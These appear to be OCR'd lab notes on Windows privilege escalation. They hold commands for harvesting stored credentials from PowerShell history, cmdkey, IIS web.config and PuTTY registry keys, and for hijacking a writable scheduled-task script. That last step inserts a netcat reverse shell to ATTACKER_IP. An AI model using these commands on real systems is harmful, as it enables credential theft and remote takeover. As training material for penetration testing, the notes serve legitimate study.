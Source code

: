 # check permissions on a file
```
icacls c:\tasks\schtask.bat
```
# Powershell History
## cmd
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## powershell
```
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
# Saved Windows Credentials
Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```
cmdkey /list
```
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```
runas /savecred /user:admin cmd.exe
```
# IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
Here is a quick way to find database connection strings on the file:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
# Retrieve Credentials from Software: PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# sheduled task (like crond on linux)
```
schtasks /query /tn vulntask /fo list /v
```
check permissions
```
icacls c:\tasks\file
```
`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)`
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\<taskfile>
```
## run a task
```
schtasks /run /tn <taskname>
```


